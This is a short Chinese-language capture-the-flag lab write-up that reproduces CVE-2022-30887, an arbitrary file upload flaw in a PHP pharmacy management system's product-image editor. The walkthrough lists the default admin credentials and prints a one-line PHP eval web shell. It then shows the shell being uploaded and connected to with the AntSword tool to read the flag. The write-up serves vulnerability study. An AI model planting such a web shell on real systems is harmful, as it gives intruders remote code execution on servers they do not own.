 ```yaml
---
title: CVE-2022-30887【文件上传】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - '文件上传'
---
```


## 1. 漏洞介绍

多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的, 该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。该软件有助于为药房业务创建一个综合数据库，并根据到期、产品等各种参数提供各种报告。 该CMS中php_action/editProductImage.php存在任意文件上传漏洞，进而导致任意代码执行。

## 2. 漏洞复现

使用默认账号密码登录： `mayuri.infospace@gmail.com/mayurik`

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281705856.png)

登录后根据漏洞提示找到产品页并编辑，如下图：

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281705257.png)

上传一句话木马

```php
<?php
@eval($_POST['shell']);
?>
```

鼠标右击新标签打开查看木马路径

![image.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281707381.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281707376.png)

用中国蚁剑连接获取flag即可

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281708882.png)
